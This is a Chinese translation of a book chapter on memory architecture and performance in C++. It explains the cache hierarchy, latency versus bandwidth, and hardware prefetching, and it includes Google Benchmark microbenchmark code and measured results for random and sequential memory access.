# 第四章：内存架构和性能

在 CPU 之后，内存通常是限制整体程序性能的硬件组件。在本章中，我们首先学习现代内存架构，它们固有的弱点以及对抗或至少隐藏这些弱点的方法。对于许多程序来说，性能完全取决于程序员是否利用了旨在提高内存性能的硬件特性，本章将教授必要的技能。

在本章中，我们将涵盖以下主要主题：

+   内存子系统概述

+   内存访问性能

+   访问模式及其对算法和数据结构设计的影响

+   内存带宽和延迟

# 技术要求

同样，您将需要一个 C++编译器和一个微基准测试工具，例如我们在上一章中使用的 Google Benchmark 库（位于[`github.com/google/benchmark`](https://github.com/google/benchmark)）。我们还将使用**LLVM 机器码分析器**（**LLVM-MCA**），位于[`llvm.org/docs/CommandGuide/llvm-mca.html`](https://llvm.org/docs/CommandGuide/llvm-mca.html)。如果您想使用 MCA，您的编译器选择将更有限：您需要一个基于 LLVM 的编译器，如 Clang。

本章的代码可以在此处找到：[`github.com/PacktPublishing/The-Art-of-Writing-Efficient-Programs/tree/master/Chapter04`](https://github.com/PacktPublishing/The-Art-of-Writing-Efficient-Programs/tree/master/Chapter04)

# 性能始于 CPU，但并不止于此。

在上一章中，我们研究了 CPU 资源以及如何将它们用于实现最佳性能。特别是，我们观察到 CPU 具有并行进行大量计算的能力（指令级并行性）。我们在多个基准测试中进行了演示，显示 CPU 可以在没有任何性能惩罚的情况下每个周期执行许多操作：例如，添加和减去两个数字所需的时间与仅添加它们所需的时间相同。

然而，您可能已经注意到，这些基准测试和示例具有一个相当不寻常的特性。考虑以下示例：

```cpp
        for (size_t i = 0; i < N; ++i) {
            a1 += p1[i] + p2[i];
            a2 += p1[i] * p2[i];
            a3 += p1[i] << 2;
            a4 += p2[i] – p1[i];
            a5 += (p2[i] << 1)*p2[i];
            a6 += (p2[i] - 3)*p1[i];
        }
```

我们已经使用了这段代码片段来证明 CPU 可以对两个值`p1[i]`和`p2[i]`进行八次操作，几乎没有额外成本，与仅进行一次操作相比。但我们总是非常小心地添加更多操作而不添加更多输入；在几个场合，我们提到过，CPU 的内部并行性适用于*只要值已经在寄存器中*。在之前的示例中，当添加第二个、第三个等直到第八个操作时，我们小心地保持只有两个输入。这导致了一些不寻常和不现实的代码。在现实生活中，您通常需要在给定的输入集上计算多少个事情？大多数情况下少于八个。

这并不意味着除非您运行类似之前示例的奇异代码，否则 CPU 的整个计算潜力都会被浪费。指令级并行性是流水线处理的计算基础，我们可以同时执行循环不同迭代的操作。无分支计算完全是为了将条件指令换成无条件计算，因此几乎完全依赖于通常情况下我们通常可以免费获得更多计算的事实。

然而，问题仍然存在：为什么我们要限制 CPU 基准测试的方式呢？毕竟，如果我们只是增加更多的输入，那么在之前的示例中想出八种不同的事情会更容易得多：

```cpp
        for (size_t i = 0; i < N; ++i) {
            a1 += p1[i] + p2[i];
            a2 += p3[i] * p4[i];
            a3 += p1[i] << 2;
            a4 += p2[i] - p3[i];
            a5 += (p4[i] << 1)*p2[i];
            a6 += (p3[i] - 3)*p1[i];
        }
```

这与我们之前看到的代码相同，只是现在每次迭代操作四个不同的输入值，而不是两个。它继承了之前示例的所有尴尬之处，但只是因为我们希望在测量某些性能变化的影响时尽可能少地进行更改。而且影响是显著的：



图 4.1

对四个输入值进行相同的计算大约需要多 36%的时间。当我们需要在内存中访问更多数据时，计算会受到延迟。

应该指出，还有另一个原因会影响性能，那就是增加更多的独立变量、输入或输出可能会影响性能：CPU 可能会用尽寄存器来存储这些变量进行计算。虽然这是许多实际程序中的一个重要问题，但在这里并非如此。这段代码并不复杂到足以用完现代 CPU 的所有寄存器（确认这一点最简单的方法是检查机器代码，不幸的是）。

显然，访问更多的数据似乎会降低代码的速度。但是为什么呢？从非常高的层面上来说，原因是内存根本跟不上 CPU。有几种方法可以估计这种*内存差距*的大小。最简单的方法在现代 CPU 的规格中就可以看出来。如我们所见，CPU 今天的时钟频率在 3 GHz 到 4 GHz 之间，这意味着一个周期大约是 0.3 纳秒。在适当的情况下，CPU 每秒可以执行多个操作，因此每纳秒执行十次操作并不是不可能的（尽管在实践中很难实现，并且是一个非常高效程序的明确迹象）。另一方面，内存速度要慢得多：例如，DDR4 内存时钟的工作频率为 400 MHz。您还可以找到高达 3200 MHz 的值；但是，这不是内存时钟，而是*数据速率*，要将其转换为类似*内存速度*的东西，您还必须考虑**列访问脉冲延迟**，通常称为**CAS 延迟**或**CL**。粗略地说，这是 RAM 接收数据请求、处理数据请求并返回值所需的周期数。没有一个单一的内存速度定义在所有情况下都是有意义的（本章后面我们将看到一些原因），但是，第一次近似地，具有 3.2 GHz 数据速率和 CAS 延迟 15 的 DDR4 模块的内存速度约为 107 MHz，或者每次访问需要 9.4 纳秒。

无论从哪个角度来看，CPU 每秒可以执行的操作比内存提供的输入值要多得多，或者存储结果。所有程序都需要以某种方式使用内存，内存访问的细节将对性能产生重大影响，有时甚至会限制性能。然而，这些细节非常重要：*内存差距*对性能的影响可以从微不足道到内存成为程序的瓶颈。我们必须了解内存在不同条件下对程序性能的影响以及原因，这样我们才能利用这些知识来设计和实现最佳性能的代码。

# 测量内存访问速度

我们有充分的证据表明，与内存中的数据相比，CPU 可以更快地处理寄存器中已有的数据。处理器和内存速度的规格单独就至少暗示了一个数量级的差异。然而，我们现在已经学会了不要在没有通过直接测量验证之前对性能进行任何猜测或假设。这并不意味着对系统架构的任何先前知识以及我们可以基于该知识做出的任何假设都没有用。这些假设可以用来指导实验并设计正确的测量方法。我们将在本章中看到，*偶然*发现的过程只能让你走得更远，甚至可能导致错误。测量本身可能是正确的，但往往很难确定到底在测量什么以及我们可以从结果中得出什么结论。

测量内存访问速度似乎应该是相当琐碎的。我们只需要一些内存来读取，并且一种计时读取的方法，就像这样：

```cpp
volatile int* p = new int;
*p = 42;
for (auto _ : state) {
    benchmark::DoNotOptimize(*p);
}
delete p;
```

此基准运行和测量……某物。您可以期望报告一个迭代的时间为 0 纳秒。这可能是不希望的编译器优化的结果：如果编译器发现整个程序没有可观察的效果，它可能会将其优化为无效果。尽管如此，我们已经采取了预防措施：我们读取的内存是`volatile`，访问`volatile`内存被认为是可观察的效果，不能被优化掉。相反，0 纳秒的结果在某种程度上是基准本身的不足：它表明单次读取比 1 纳秒更快。虽然这与我们基于内存速度的预期不太一样，但我们无法从一个我们不知道的数字中学到任何东西，包括我们自己的错误。要修复基准的测量方面，我们所要做的就是在一个基准迭代中执行多次读取，如下所示：

```cpp
volatile int* p = new int;
*p = 42;
for (auto _ : state) {
    benchmark::DoNotOptimize(*p);
    … repeat 32 times …
    benchmark::DoNotOptimize(*p);
}
state.SetItemsProcessed(32*state.iterations());
delete p;
```

在这个例子中，我们每次迭代执行 32 次读取。虽然我们可以从报告的迭代时间中计算出单个读取的时间，但让 Google Benchmark 库为我们进行计算并报告每秒读取的次数更方便；这是通过在基准结束时设置处理的项目数量来实现的。

这个基准应该在中档 CPU 上报告迭代时间约为 5 纳秒，证实单次读取为这个时间的 1/32，远低于 1 纳秒（因此我们对每次迭代单次读取为 0 的原因的猜测得到了验证）。另一方面，这个测得的值与我们对内存速度的期望不符。我们之前对性能瓶颈的假设可能是错误的；这并非第一次。或者，我们可能正在测量与内存速度不同的东西。

## 内存架构

要正确理解如何测量内存性能，我们必须更多地了解现代处理器的内存架构。对于我们的目的来说，内存系统最重要的特性是它是分层的。CPU 不直接访问主内存，而是通过一系列缓存层次结构：



图 4.2-内存层次结构图

图 4.2 中的 RAM 是主内存，主板上的 DRAM。当系统规格说明机器有多少吉字节的内存时，那就是 DRAM 的容量。正如你所看到的，CPU 并不直接访问主内存，而是通过多个层次的缓存层次结构。这些缓存也是内存电路，但它们位于 CPU 芯片上，并且使用不同的技术来存储数据：它们都是不同速度的 SRAM。从我们的角度来看，DRAM 和 SRAM 之间的关键区别是 SRAM 的访问速度要快得多，但它的功耗比 DRAM 要大得多。随着我们通过内存层次结构接近 CPU，内存访问速度也会增加：一级（L1）缓存的访问时间几乎与 CPU 寄存器相同，但它使用的功率很大，我们只能有很少的这样的内存，通常每个 CPU 核心为 32KB。下一级，L2 缓存，更大但更慢，第三级（L3）缓存更大但也更慢（通常在 CPU 的多个核心之间共享），层次结构的最后一级是主内存本身。

当 CPU 第一次从主内存中读取数据值时，该值通过所有缓存级别传播，并且它的副本留在缓存中。当 CPU 再次读取相同的值时，它不需要等待该值从主内存中获取，因为相同值的副本已经在快速的 L1 缓存中可用。

只要我们想要读取的数据适合 L1 缓存，那就是需要发生的一切：所有数据将在第一次访问时加载到缓存中，之后，CPU 只需要访问 L1 缓存。然而，如果我们尝试访问当前不在缓存中的值，并且缓存已经满了，就必须从缓存中驱逐一些数据以为新值腾出空间。这个过程完全由硬件控制，硬件有一些启发式方法来确定我们最不可能再次需要的值，基于我们最近访问的值（第一次近似，很可能很长时间没有使用的数据可能不会很快再次需要）。下一级缓存更大，但使用方式相同：只要数据在缓存中，就在那里访问（离 CPU 越近越好）。否则，它必须从下一级缓存或者 L3 缓存中获取，如果缓存已满，就必须从缓存中驱逐一些其他数据（也就是说，被缓存遗忘，因为原始数据仍然在主内存中）。

现在我们可以更好地理解我们之前测量的内容：因为我们一遍又一遍地读取相同的值，成千上万次，初始读取的成本完全丢失了，平均读取时间就是 L1 缓存读取的时间。L1 缓存确实似乎非常快，所以如果你的整个数据适合 32 KB，你不需要担心内存差距。否则，你必须学会如何正确测量内存性能，这样你就可以得出适用于你的程序的结论。

## 测量内存和缓存速度

现在我们明白了内存速度比单次读取的时间更复杂，我们可以设计一个更合适的基准测试。我们可以预期缓存大小会显著影响结果，因此我们必须访问不同大小的数据，从几千字节（适合 32 KB L1 缓存）到数十兆字节或更多（L3 缓存大小不同，但通常在 8 MB 到 12 MB 左右）。由于对于大数据量，内存系统将不得不从缓存中清除*旧*数据，我们可以预期性能取决于该预测的有效性，或者更一般地说，取决于访问模式。顺序访问，比如复制一系列内存，最终的性能可能会与以随机顺序访问相同范围的性能有很大不同。最后，结果可能取决于内存访问的粒度：访问 64 位`long`值是否比访问单个`char`更慢？

用于顺序读取大数组的简单基准测试可以如下所示：

```cpp
template <class Word>
void BM_read_seq(benchmark::State& state) {
    const size_t size = state.range(0);
    void* memory = ::malloc(size);
    void* const end = static_cast<char*>(memory) + size;
    volatile Word* const p0 = static_cast<Word*>(memory);
    Word* const p1 = static_cast<Word*>(end);
    for (auto _ : state) {
        for (volatile Word* p = p0; p != p1; ) {
            REPEAT(benchmark::DoNotOptimize(*p++);)
        }
        benchmark::ClobberMemory();
    }
    ::free(memory);
    state.SetBytesProcessed(size*state.iterations());
    state.SetItemsProcessed((p1 - p0)*state.iterations());
}
```

写入的基准测试看起来非常相似，在主循环中只有一行变化：

```cpp
    Word fill = {};    // Default-constructed
    for (auto _ : state) {
        for (volatile Word* p = p0; p != p1; ) {
            REPEAT(benchmark::DoNotOptimize(*p++ = fill);)
        }
        benchmark::ClobberMemory();
    }
```

我们写入数组的值不应该有影响；如果你担心零有些*特殊*，你可以用任何其他值初始化`fill`变量。

宏`REPEAT`用于避免手动复制基准测试代码多次。我们仍然希望在每次迭代中执行多次内存读取：一旦我们开始报告每秒读取的次数，避免*每次迭代 0 纳秒*的报告就不那么关键了，但是对于像我们这样非常便宜的迭代来说，循环本身的开销是非常重要的，因此最好手动展开这个循环。我们的`REPEAT`宏将循环展开 32 次：

```cpp
#define REPEAT2(x) x x
#define REPEAT4(x) REPEAT2(x) REPEAT2(x)
#define REPEAT8(x) REPEAT4(x) REPEAT4(x)
#define REPEAT16(x) REPEAT8(x) REPEAT8(x)
#define REPEAT32(x) REPEAT16(x) REPEAT16(x)
#define REPEAT(x) REPEAT32(x)
```

当然，我们必须确保我们请求的内存大小足够大，可以容纳 32 个`Word`类型的值，并且总数组大小可以被 32 整除；这两者对我们的基准测试代码都不是重大限制。

说到`Word`类型，这是我们第一次使用`TEMPLATE`基准测试。它用于生成多种类型的基准测试，而不是复制代码。调用这样的基准测试有一点不同：

```cpp
#define ARGS ->RangeMultiplier(2)->Range(1<<10, 1<<30)
BENCHMARK_TEMPLATE1(BM_read_seq, unsigned int) ARGS;
BENCHMARK_TEMPLATE1(BM_read_seq, unsigned long) ARGS;
```

如果 CPU 支持，我们可以使用 SSE 和 AVX 指令以更大的块读取和写入数据，例如在 x86 CPU 上一次移动 16 或 32 字节。在 GCC 或 Clang 中，有这些更大类型的库头文件：

```cpp
#include <emmintrin.h>
#include <immintrin.h>
…
BENCHMARK_TEMPLATE1(BM_read_seq, __m128i) ARGS;
BENCHMARK_TEMPLATE1(BM_read_seq, __m256i) ARGS;
```

类型`__m128i`和`__m256i`不是内置语言（至少不是 C/C++），但 C++让我们很容易地声明新类型：这些是值类型类（表示单个值的类），并且为它们定义了一组算术运算，例如加法和乘法，编译器使用适当的 SIMD 指令实现这些运算。

前面的基准测试按顺序访问内存范围，从开始到结束，依次，每次一个字。内存的大小会变化，由基准参数指定（在本例中，从 1 KB 到 1 GB，每次加倍）。复制完内存范围后，基准测试会再次进行，从开始，直到积累足够的测量。

在以随机顺序访问内存速度时，必须更加小心。*天真*的实现会导致我们测量类似这样的代码：

```cpp
benchmark::DoNotOptimize(p[rand() % size]);
```

不幸的是，这个基准测试测量了调用`rand()`函数所需的时间：它的计算成本比读取一个整数要高得多，你永远不会注意到后者的成本。甚至取模运算符`%`的成本也比单个读取或写入要高得多。获得一些近似准确的方法是预先计算随机索引并将它们存储在另一个数组中。当然，我们必须面对这样一个事实，即我们现在既读取索引值又读取索引数据，因此测量成本是两次读取（或一次读取和一次写入）。

按随机顺序写入内存的附加代码可以如下所示：

```cpp
    const size_t N = size/sizeof(Word);
    std::vector<int> v_index(N); 
    for (size_t i = 0; i < N; ++i) v_index[i] = i;
    std::random_shuffle(v_index.begin(), v_index.end());
    int* const index = v_index.data();
    int* const i1 = index + N;
    Word fill; memset(&fill, 0x0f, sizeof(fill));
    for (auto _ : state) {
        for (const int* ind = index; ind < i1; ) {
            REPEAT(*(p0 + *ind++) = fill;)
        }
        benchmark::ClobberMemory();
    }
```

在这里，我们使用 STL 算法`random_shuffle`生成索引的随机顺序（我们也可以使用随机数；虽然有些索引可能出现多次，而其他索引可能从未出现，但这不应该对结果产生太大影响）。我们写入的值实际上并不重要：写入任何数字都需要相同的时间，但是如果编译器能够确定代码正在写入大量零，它有时可以进行特殊优化，因此最好避免这样做并写入其他内容。还要注意，更长的 AVX 类型不能用整数初始化，因此我们使用`memset()`将任意位模式写入写入值。

读取的基准测试当然非常相似，只是内部循环必须改变：

```cpp
REPEAT(benchmark::DoNotOptimize(*(p0 + *ind++));)
```

我们有测量主要测量内存访问成本的基准代码。推进索引所需的算术运算是不可避免的，但是加法最多需要一个周期，并且我们已经看到 CPU 可以同时执行多个加法，因此数学不会成为瓶颈（而且无论如何，任何访问数组中的内存的程序都必须执行相同的计算，因此实际上重要的是访问速度）。现在让我们看看我们的努力的结果。

# 内存速度：数字

现在我们有了测量读取和写入内存速度的基准测试代码，我们可以收集结果并看看在访问内存中的数据时如何获得最佳性能。我们首先从随机访问开始，其中我们读取或写入的每个值的位置是不可预测的。

## 随机内存访问的速度

测量结果可能会相当嘈杂，除非你多次运行这个基准测试并对结果取平均值（基准库可以为你做到这一点）。对于一个*合理*的运行时间（几分钟），你可能会看到类似这样的结果：



图 4.3 - 内存大小的随机读取速度

*图 4.3*中的基准结果显示了每秒从内存中读取的字数（以十亿计，在任何合理的 PC 或工作站上都可以找到），其中*字*是 64 位整数或 256 位整数（`long`或`__m256i`，分别）。相同的测量结果也可以用所选大小的单个字的读取时间来呈现。



图 4.4 - 读取一个数组元素的时间与数组大小

图表有几个有趣的特点，我们可以一次观察到。首先，正如我们预期的那样，没有单一的内存速度。从我使用的机器上读取一个 64 位整数的时间从 0.3 纳秒到 7 纳秒不等。读取少量数据的速度，每个值而言，比读取大量数据要快得多。我们可以从这些图表中看到缓存的大小：32 KB 的 L1 缓存速度快，只要所有数据都适合 L1 缓存，读取速度就不依赖于数据量。一旦我们超过 32 KB 的数据，读取速度就开始下降。数据现在适合于 L2 缓存，它更大（256 KB）但速度较慢。数组越大，适合快速 L1 缓存的部分就越小，访问速度就越慢。

如果数据溢出 L2 缓存，读取时间会进一步增加，我们必须使用更慢的 L3 缓存。L3 缓存更大，但速度更慢。然而，直到数据大小超过 8MB，才会发生任何事情。只有在那时，我们才会实际从主存储器中读取数据：直到现在，数据是在我们第一次接触它时从内存中移动到缓存中的，所有后续的读取操作都只使用缓存。但是，如果我们需要一次访问超过 8MB 的数据，其中一些数据将不得不从主存储器中读取（在这台机器上，缓存大小会因 CPU 型号而异）。当然，我们不会立即失去缓存的好处：只要大部分数据适合缓存，它至少在某种程度上是有效的。但是一旦数据量超过缓存大小几倍，读取时间几乎完全取决于从内存中检索数据所需的时间。

每当我们需要读取或写入某个变量，并且在缓存中找到它时，我们称之为*缓存命中*。然而，如果没有找到，那么我们就会注册*缓存未命中*。当然，L1 缓存未命中可能会成为 L2 命中。L3 缓存未命中意味着我们必须一直到主存储器。

值本身的第二个值得注意的属性是：从内存中读取一个整数需要 7 纳秒。按照处理器的标准，这是一个非常长的时间：在前一章中，我们已经看到相同的 CPU 可以在每纳秒做几个操作。让这个事实深入人心：CPU 可以在读取单个整数值的时间内做大约 50 个算术运算，除非该值已经在缓存中。很少有程序需要对每个值进行 50 次操作，这意味着除非我们能找出一些方法来加速内存访问，否则 CPU 可能会被低效利用。

最后，我们看到每秒的读取速度不取决于字的大小。从实际角度来看，最相关的含义是，如果我们使用 256 位指令来读取内存，我们可以读取四倍的数据。当然，事情并不那么简单：SSE 和 AVX 加载指令将值读入不同的寄存器，而不是常规加载，因此我们还必须使用 SSE 或 AVX SIMD 指令来进行计算。一个更简单的情况是当我们只需要从内存的一个位置复制大量数据到另一个位置；我们的测量表明，复制 256 位字的速度比使用 64 位字快四倍。当然，已经有一个复制内存的库函数`memcpy()`或`std::memcpy()`，它经过了最佳效率的优化。

还有一个暗示是，速度不依赖于字长的事实：这意味着读取速度受延迟而不是带宽限制。延迟是发出数据请求和检索数据之间的延迟时间。带宽是内存总线在给定时间内可以传输的数据总量。从 64 位字到 256 位字传输的数据量是相同时间内的四倍；这意味着我们还没有达到带宽限制。虽然这可能看起来是一个纯理论上的区别，但它对编写高效程序有重要的影响，我们将在本章后面学习到。

最后，我们可以测量写入内存的速度：



图 4.5 - 一个数组元素的写入时间与数组大小的关系

在我们的情况下，随机读写的性能非常相似，但这在不同的硬件上可能会有所不同：有时读取速度更快。我们之前观察到的有关读取内存速度的一切也适用于写入：我们在图 4.5 中看到了缓存大小的影响，如果主内存参与其中，写入一个元素的总等待时间非常长，而写入大字更有效。

关于内存访问对性能的影响，我们可以得出什么结论？一方面，如果我们需要重复访问少量数据（小于 32KB），我们不必太担心。当然，“重复”是关键：对任何内存位置的第一次访问将不得不触及主内存，无论我们计划访问多少内存（计算机不知道你的数组很小，直到你读取整个数组并回到开头——第一次读取小数组的第一个元素看起来与读取大数组的第一个元素完全相同）。另一方面，如果我们需要访问大量数据，内存速度很可能成为我们的首要关注点：每个数字需要 7 纳秒，你走不了太远。

本章中我们将看到几种提高内存性能的技术。在我们研究如何改进我们的代码之前，让我们看看我们可以从硬件本身得到什么帮助。

## 顺序内存访问的速度

到目前为止，我们已经测量了在随机位置访问内存的速度。当我们这样做时，每次内存访问实际上都是新的。我们正在读取的整个数组被加载到它可以容纳的最小缓存中，然后我们的读写随机访问该缓存中的不同位置。如果数组无法适应任何缓存，那么我们将随机访问内存中的不同位置，并在每次访问时产生 7 纳秒的延迟（对于我们使用的硬件）。

随机内存访问在我们的程序中经常发生，但同样频繁的是，我们有一个需要从第一个元素到最后一个元素处理的大数组。重要的是要指出，这里的“随机”和“顺序”访问是由内存地址的顺序决定的。有可能会产生误解：列表是一种不支持随机访问的数据结构（意味着你不能跳到列表的中间），必须按顺序访问，从头元素开始。然而，如果每个列表元素是分别分配并在不同时间分配的，那么按顺序遍历列表很可能以随机顺序访问内存。另一方面，数组是一种随机访问数据结构（意味着你可以访问任何元素而不必访问它之前的元素）。然而，从头到尾读取数组是按顺序访问内存，按照单调递增的地址顺序。在本章中，除非另有说明，我们在谈论顺序或随机访问时都关注访问内存地址的顺序。

顺序内存访问的性能是完全不同的。以下是顺序写入的结果：



图 4.6 - 一个数组元素的写入时间与数组大小的关系，顺序访问

图的整体形状与之前相同，但差异和相似之处同样重要。我们应该注意的第一个差异是垂直轴的刻度：时间值比我们在*图 4.5*中看到的要小得多。写入 256 位值只需要 2.5 纳秒，而 64 位整数只需要 0.8 纳秒。

第二个不同之处是不同字大小的曲线不再相同。这里有一个重要的警告：这个结果高度依赖于硬件：在许多系统上，你会看到与上一节类似的结果。在我使用的硬件上，不同字大小的顺序写入时间对于 L1 缓存是相同的，但对于其他缓存和主内存是不同的。观察主内存的数值，我们可以看到写入 64 位整数的时间并不是写入 32 位整数所需时间的两倍，对于更大的大小，写入时间每当字大小加倍时就会加倍。这意味着限制不是我们每秒可以写入多少个字，而是每秒可以写入多少个字节：所有字大小的速度（除了最小的那个）每秒的速度将是相同的。这意味着速度现在不再受延迟的限制，而是受带宽的限制：我们正在以总线能够传输的速度将位推入内存，无论我们是将它们分组成 64 位块还是 256 位块，我们称之为*字*，我们已经达到了内存的带宽限制。再次强调，这个结果比我们在本章中做出的任何其他观察都更依赖于硬件：在许多机器上，内存足够快，单个 CPU 无法饱和其带宽。

我们可以得出的最后一个观察是，虽然与缓存大小对应的曲线上的步骤仍然可见，但它们不那么明显，也没有那么陡峭。我们有了结果，也有了观察。这一切意味着什么呢？

## 硬件中的内存性能优化

这三个观察结果合在一起，指向硬件本身采用了某种延迟隐藏技术（除了改变内存访问顺序，我们没有做任何事情来改善我们代码的性能，所以所有的收益都归功于硬件做了一些不同的事情）。在随机访问主内存时，每次访问在我们的机器上需要 7 纳秒。这是从请求特定地址的数据到它被传送到 CPU 寄存器所需的时间，这种延迟完全由延迟决定（无论我们请求了多少字节，我们都必须等待 7 纳秒才能得到任何东西）。在顺序访问内存时，硬件可以立即开始传输数组的下一个元素：第一个元素仍然需要 7 纳秒才能访问，但之后，硬件可以开始以 CPU 和内存总线可以处理的速度从内存中流式传输整个数组。数组的第二个和之后的元素的传输甚至在 CPU 发出数据请求之前就开始了。因此，延迟不再是限制因素，带宽是。

当然，这假设硬件知道我们要顺序访问整个数组以及数组的大小。实际上，硬件并不知道这些，但就像我们在上一章中学习的条件指令一样，内存系统中有学习电路来做出合理的猜测。在我们的情况下，我们遇到了被称为**预取**的硬件技术。一旦内存控制器注意到 CPU 连续访问了几个地址，它就假设模式将继续，并准备访问下一个内存位置，将数据传输到 L1 缓存（对于读取）或为写入在 L1 缓存中腾出空间。理想情况下，预取技术将允许 CPU 始终以 L1 缓存速度访问内存，因为在 CPU 需要每个数组元素时，它已经在 L1 缓存中。现实是否符合这种理想情况取决于 CPU 在访问相邻元素之间需要多少工作。在我们的基准测试中，CPU 几乎没有做任何工作，预取落后了。即使预期线性顺序访问，它也无法以足够快的速度在主内存和 L1 缓存之间传输数据。然而，预取非常有效地隐藏了内存访问的延迟。

预取不是基于对内存访问将如何进行的预见或先验知识（有一些特定于平台的系统调用允许程序通知硬件即将按顺序访问一段内存，但它们不具有可移植性，在实践中很少有用）。相反，预取试图检测内存访问中的模式。因此，预取的有效性取决于它能够多么有效地确定模式并猜测下一个访问的位置。

